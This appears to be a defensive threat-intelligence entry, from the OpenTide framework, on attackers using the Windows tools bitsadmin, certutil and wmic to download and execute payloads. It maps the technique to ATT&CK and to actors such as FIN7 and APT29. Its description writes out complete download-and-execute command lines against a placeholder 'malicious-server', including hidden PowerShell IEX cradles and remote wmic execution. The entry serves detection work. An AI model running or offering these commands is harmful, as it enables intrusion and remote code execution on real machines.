

# ☣️ Download and Execute Payloads with Windows Utilities

🔥 **Criticality:Medium** ❗ : A Medium priority incident may affect public health or safety, national security, economic security, foreign relations, civil liberties, or public confidence. 

🚦 **TLP:CLEAR** ⚪ : Recipients can spread this to the world, there is no limit on disclosure.


🗡️ **ATT&CK Techniques** [T1105 : Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105 'Adversaries may transfer tools or other files from an external system into a compromised environment Tools or files may be copied from an external adv'), [T1218 : System Binary Proxy Execution](https://attack.mitre.org/techniques/T1218 'Adversaries may bypass process andor signature-based defenses by proxying execution of malicious content with signed, or otherwise trusted, binaries B')


---

`🔑 UUID : 765be5d9-4f79-4e3d-b894-fa428f285ab5` **|** `🏷️ Version : 1` **|** `🗓️ Creation Date : 2024-11-05` **|** `🗓️ Last Modification : 2024-11-05` **|** `Sharing Organisation : {'uuid': '56b0a0f0-b0bc-47d9-bb46-02f80ae2065a', 'name': 'EC DIGIT CSOC'}` **|** `🧱 Schema Identifier : tvm::2.0`


## 👁️ Description

> 1. Bitsadmin.exe\
> **Description**: A command-line tool to create and manage BITS jobs. 
> Threat actors use it to download or upload files stealthily.
> 
> Example:
> 
> ```
> bitsadmin.exe /transfer myJob /download /priority high http://malicious-server/payload.exe C:\temp\payload.exe
> start C:\temp\payload.exe
> ```
> 
> 2. Certutil.exe\
> **Description**: A command-line tool for manipulating certificates. 
> It can be used to download files and perform Base64 encoding/decoding.
> 
> Example:
> 
> ```
> certutil.exe -urlcache -split -f http://malicious-server/payload.exe C:\temp\payload.exe
> ```
> 
> 3. Wmic.exe\
> **Description**: Windows Management Instrumentation Command-line (WMIC) is 
> a command-line utility that provides a powerful interface to the 
> Windows Management Instrumentation (WMI) infrastructure. 
> It allows administrators to perform management tasks on both local and remote Windows systems
> 
> Example:
> 
> Execute payload on a local machine:
> ```
> wmic process call create "powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command \"IEX(New-Object Net.WebClient).DownloadString('http://malicious-server/payload.ps1')\""
> ```
> 
> Execute a remote script:
> ```
> wmic /node:"REMOTE_COMPUTER_NAME" process call create "powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command \"Invoke-WebRequest -Uri 'http://malicious-server/payload.exe' -OutFile 'C:\\Windows\\Temp\\payload.exe'; Start-Process 'C:\\Windows\\Temp\\payload.exe'\""
> ```


## 🖥️ Terrain 

 > Adversary has access to a Windows system where native utilities are available 
> and can execute commands without restrictions.
> 

---

## 🕸️ Relations


### 🐲 Actors sightings 

| Actor              | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 | Aliases                                                                                                                                                                                                                                                   | Source                     | Sighting               | Reference                |
|:-------------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:---------------------------|:-----------------------|:-------------------------|
| [ICS] FIN7         | [FIN7](https://attack.mitre.org/groups/G0046) is a financially-motivated threat group that has been active since 2013. [FIN7](https://attack.mitre.org/groups/G0046) has primarily targeted the retail, restaurant, hospitality, software, consulting, financial services, medical equipment, cloud services, media, food and beverage, transportation, and utilities industries in the U.S. A portion of [FIN7](https://attack.mitre.org/groups/G0046) was run out of a front company called Combi Security and often used point-of-sale malware for targeting efforts. Since 2020, [FIN7](https://attack.mitre.org/groups/G0046) shifted operations to a big game hunting (BGH) approach including use of [REvil](https://attack.mitre.org/software/S0496) ransomware and their own Ransomware as a Service (RaaS), Darkside. FIN7 may be linked to the [Carbanak](https://attack.mitre.org/groups/G0008) Group, but there appears to be several groups using [Carbanak](https://attack.mitre.org/software/S0030) malware and are therefore tracked separately.(Citation: FireEye FIN7 March 2017)(Citation: FireEye FIN7 April 2017)(Citation: FireEye CARBANAK June 2017)(Citation: FireEye FIN7 Aug 2018)(Citation: CrowdStrike Carbon Spider August 2021)(Citation: Mandiant FIN7 Apr 2022)                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | Carbon Spider, ELBRUS, GOLD NIAGARA, ITG14, Sangria Tempest                                                                                                                                                                                               | 🗡️ MITRE ATT&CK Groups     | No documented sighting | No documented references |
| FIN7               | Groups targeting financial organizations or people with significant financial assets.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       | CARBON SPIDER, GOLD NIAGARA, Calcium, ATK32, G0046, G0008, Coreid, Carbanak, Sangria Tempest, ELBRUS, Carbon Spider, JokerStash                                                                                                                           | 🌌 MISP Threat Actor Galaxy | No documented sighting | No documented references |
| [Enterprise] Turla | [Turla](https://attack.mitre.org/groups/G0010) is a cyber espionage threat group that has been attributed to Russia's Federal Security Service (FSB).  They have compromised victims in over 50 countries since at least 2004, spanning a range of industries including government, embassies, military, education, research and pharmaceutical companies. [Turla](https://attack.mitre.org/groups/G0010) is known for conducting watering hole and spearphishing campaigns, and leveraging in-house tools and malware, such as [Uroburos](https://attack.mitre.org/software/S0022).(Citation: Kaspersky Turla)(Citation: ESET Gazer Aug 2017)(Citation: CrowdStrike VENOMOUS BEAR)(Citation: ESET Turla Mosquito Jan 2018)(Citation: Joint Cybersecurity Advisory AA23-129A Snake Malware May 2023)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | BELUGASTURGEON, Group 88, IRON HUNTER, Krypton, Secret Blizzard, Snake, Venomous Bear, Waterbug, WhiteBear                                                                                                                                                | 🗡️ MITRE ATT&CK Groups     | No documented sighting | No documented references |
| Turla              | A 2014 Guardian article described Turla as: 'Dubbed the Turla hackers, initial intelligence had indicated western powers were key targets, but it was later determined embassies for Eastern Bloc nations were of more interest. Embassies in Belgium, Ukraine, China, Jordan, Greece, Kazakhstan, Armenia, Poland, and Germany were all attacked, though researchers from Kaspersky Lab and Symantec could not confirm which countries were the true targets. In one case from May 2012, the office of the prime minister of a former Soviet Union member country was infected, leading to 60 further computers being affected, Symantec researchers said. There were some other victims, including the ministry for health of a Western European country, the ministry for education of a Central American country, a state electricity provider in the Middle East and a medical organisation in the US, according to Symantec. It is believed the group was also responsible for a much - documented 2008 attack on the US Central Command. The attackers - who continue to operate - have ostensibly sought to carry out surveillance on targets and pilfer data, though their use of encryption across their networks has made it difficult to ascertain exactly what the hackers took.Kaspersky Lab, however, picked up a number of the attackers searches through their victims emails, which included terms such as Nato and EU energy dialogue Though attribution is difficult to substantiate, Russia has previously been suspected of carrying out the attacks and Symantecs Gavin O’ Gorman told the Guardian a number of the hackers appeared to be using Russian names and language in their notes for their malicious code. Cyrillic was also seen in use.' | Snake, VENOMOUS Bear, Group 88, Waterbug, WRAITH, Uroburos, Pfinet, TAG_0530, KRYPTON, Hippo Team, Pacifier APT, Popeye, SIG23, IRON HUNTER, MAKERSMARK, ATK13, G0010, ITG12, Blue Python, SUMMIT, UNC4210, Secret Blizzard, UAC-0144, UAC-0024, UAC-0003 | 🌌 MISP Threat Actor Galaxy | No documented sighting | No documented references |
| [Enterprise] APT29 | [APT29](https://attack.mitre.org/groups/G0016) is threat group that has been attributed to Russia's Foreign Intelligence Service (SVR).(Citation: White House Imposing Costs RU Gov April 2021)(Citation: UK Gov Malign RIS Activity April 2021) They have operated since at least 2008, often targeting government networks in Europe and NATO member countries, research institutes, and think tanks. [APT29](https://attack.mitre.org/groups/G0016) reportedly compromised the Democratic National Committee starting in the summer of 2015.(Citation: F-Secure The Dukes)(Citation: GRIZZLY STEPPE JAR)(Citation: Crowdstrike DNC June 2016)(Citation: UK Gov UK Exposes Russia SolarWinds April 2021)In April 2021, the US and UK governments attributed the [SolarWinds Compromise](https://attack.mitre.org/campaigns/C0024) to the SVR; public statements included citations to [APT29](https://attack.mitre.org/groups/G0016), Cozy Bear, and The Dukes.(Citation: NSA Joint Advisory SVR SolarWinds April 2021)(Citation: UK NSCS Russia SolarWinds April 2021) Industry reporting also referred to the actors involved in this campaign as UNC2452, NOBELIUM, StellarParticle, Dark Halo, and SolarStorm.(Citation: FireEye SUNBURST Backdoor December 2020)(Citation: MSTIC NOBELIUM Mar 2021)(Citation: CrowdStrike SUNSPOT Implant January 2021)(Citation: Volexity SolarWinds)(Citation: Cybersecurity Advisory SVR TTP May 2021)(Citation: Unit 42 SolarStorm December 2020)                                                                                                                                                                                                                                                                                | Blue Kitsune, Cozy Bear, CozyDuke, Dark Halo, IRON HEMLOCK, IRON RITUAL, Midnight Blizzard, NOBELIUM, NobleBaron, SolarStorm, The Dukes, UNC2452, UNC3524, YTTRIUM                                                                                        | 🗡️ MITRE ATT&CK Groups     | No documented sighting | No documented references |
| UNC2452            | Reporting regarding activity related to the SolarWinds supply chain injection has grown quickly since initial disclosure on 13 December 2020. A significant amount of press reporting has focused on the identification of the actor(s) involved, victim organizations, possible campaign timeline, and potential impact. The US Government and cyber community have also provided detailed information on how the campaign was likely conducted and some of the malware used.  MITRE’s ATT&CK team — with the assistance of contributors — has been mapping techniques used by the actor group, referred to as UNC2452/Dark Halo by FireEye and Volexity respectively, as well as SUNBURST and TEARDROP malware.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | DarkHalo, StellarParticle, NOBELIUM, Solar Phoenix, Midnight Blizzard                                                                                                                                                                                     | 🌌 MISP Threat Actor Galaxy | No documented sighting | No documented references |

### 🌊 OpenTide Objects
🚫 No related OpenTide objects indexed.


 --- 

### ⛓️ Threat Chaining




<details>
<summary>Expand chaining data</summary>

| ☣️ Vector                                                                                                                                                                                                                                                                                                        | ⛓️ Link                 | 🎯 Target                                                                                                                                                                                                                                               | ⛰️ Terrain                                                                                                                                                                                          | 🗡️ ATT&CK                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:------------------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| [Download and Execute Payloads with Windows Utilities](../Threat%20Vectors/☣️%20Download%20and%20Execute%20Payloads%20with%20Windows%20Utilities.md '1 BitsadminexeDescription A command-line tool to create and manage BITS jobs Threat actors use it to download or upload files stealthilyExamplebitsadm...') | `atomicity::implements` | [Abuse of Windows Utilities](../Threat%20Vectors/☣️%20Abuse%20of%20Windows%20Utilities.md 'Advanced threat actors frequently abuse legitimate Windows utilities to execute malicious code, evade detection, and maintain persistence This techniq...') | Adversaries must have access to a Windows environment where they can execute  built-in utilities. Limited user privileges may suffice,  but administrative privileges enhance the potential impact. | [T1218](https://attack.mitre.org/techniques/T1218 'Adversaries may bypass process andor signature-based defenses by proxying execution of malicious content with signed, or otherwise trusted, binaries B'), [T1197](https://attack.mitre.org/techniques/T1197 'Adversaries may abuse BITS jobs to persistently execute code and perform various background tasks Windows Background Intelligent Transfer Service BITS'), [T1218.004](https://attack.mitre.org/techniques/T1218/004 'Adversaries may use InstallUtil to proxy execution of code through a trusted Windows utility InstallUtil is a command-line utility that allows for ins'), [T1563](https://attack.mitre.org/techniques/T1563 'Adversaries may take control of preexisting sessions with remote services to move laterally in an environment Users may use valid credentials to log i'), [T1140](https://attack.mitre.org/techniques/T1140 'Adversaries may use Obfuscated Files or InformationhttpsattackmitreorgtechniquesT1027 to hide artifacts of an intrusion from analysis They may require'), [T1218.010](https://attack.mitre.org/techniques/T1218/010 'Adversaries may abuse Regsvr32exe to proxy execution of malicious code Regsvr32exe is a command-line program used to register and unregister object li'), [T1218.005](https://attack.mitre.org/techniques/T1218/005 'Adversaries may abuse mshtaexe to proxy execution of malicious hta files and Javascript or VBScript through a trusted Windows utility There are severa') |

</details>
&nbsp; 


---

## Model Data

#### **⛓️ Cyber Kill Chain**

 > Cyber attacks are typically phased progressions towards strategic objectives. The Unified Kill Chains provides insight into the tactics that hackers employ to attain these objectives. This provides a solid basis to develop (or realign) defensive strategies to raise cyber resilience.

 [`⚡ Execution`](https://www.unifiedkillchain.com/assets/The-Unified-Kill-Chain.pdf) : Techniques that result in execution of attacker-controlled code on a local or remote system.

---

#### **🛰️ Domains**

 > Infrastructure technologies domain of interest to attackers.

 `🏢 Enterprise` : Generic databases, applications, machines and systems that are usually on premises or on Cloud traditional VMs.

---

#### **🎯 Targets**

 > Granular delimited technical entities holding a value to the organization, that are targeted by adversaries. They might be also involved in the detection coverage as the target of log collection. Partially inspired by Veris.

  - [`🖥️ Workstations`](http://veriscommunity.net/enums.html#section-asset) : Placeholder
 - [`🖥️ Public-Facing Servers`](http://veriscommunity.net/enums.html#section-asset) : Placeholder
 - [`💻 Laptop`](http://veriscommunity.net/enums.html#section-asset) : User Device - Laptop
 - [`🛠️ Virtual Machines`](http://veriscommunity.net/enums.html#section-asset) : Placeholder

---

#### **💿 Platforms concerned**

 > Actual technologies used by the organization that will be exploited by adversaries during a successful attack, and eventually of relevance for detection. Are named by commercial designation.

  - ` Windows` : Placeholder
 - ` PowerShell` : Placeholder

---

#### **💣 Severity**

 > The severity summarizes the overall danger of incident the vector will provoke, and is to be derived (WIP) from impact, leverage, and difficulty to execute.

 [`⚠️ Significant incident`](https://www.ncsc.gov.uk/news/new-cyber-attack-categorisation-system-improve-uk-response-incidents) : A cyber attack which has a serious impact on a large organisation or on wider / local government, or which poses a considerable risk to central government or (inter)national essential services.

---

#### **🪄 Leverage acquisition**

 > Technical aftermath of the attack from the target perspective, differentiated from impact as it does not consider the value of the consequence, only what increased control the vector execution provides to the adversary.

  - [`💅 Elevation of privilege`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Capacity to augment leverage over the target system by upgrading the compromised access rights
 - [`📦 Software installation`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Software installation or code modification
 - [`👁️‍🗨️ Information Disclosure`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Threat action intending to read a file that one was not granted access to, or to read data in transit.
 - [`⚙️ Modify configuration`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Modify configuration or services

---

#### **💥 Impact**

 > Analysis of the threat vector from the organizational perspective, in non technical term. This aims at putting a clear denomination on what the attacker will actually be able to act upon if the threat vector is realized.

  - [`🔓 Data Breach`](http://veriscommunity.net/enums.html#section-impact) : Non-public information has been accessed from the outside, and successfully extracted.
 - [`🌍 Reputational Damages`](http://veriscommunity.net/enums.html#section-impact) : Damages to the organization public view may be achieved by using directly the access gained, or indirectly with data gathered.
 - [`🛑 Business disruption`](http://veriscommunity.net/enums.html#section-impact) : Business disruption

---

#### **🎲 Vector Viability**

 > Described with estimative language (likelyhood probability), describes how likely the analyst believes the vector to actually be realized on the organization infrastructure. Estimative language describes quality and credibility of underlying sources, data, and methodologies based Intelligence Community Directive 203 (ICD 203) and JP 2-0, Joint Intelligence.

 [`🧐 Likely`](https://www.dni.gov/files/documents/ICD/ICD%20203%20Analytic%20Standards.pdf) : Probable (probably) - 55-80%

---


---

#### 🏷️ Tags

#-, #-, #-, #
, #
, ##, ##, ##, ##, # , #🏷, #️, # , #T, #a, #g, #s, #
, #


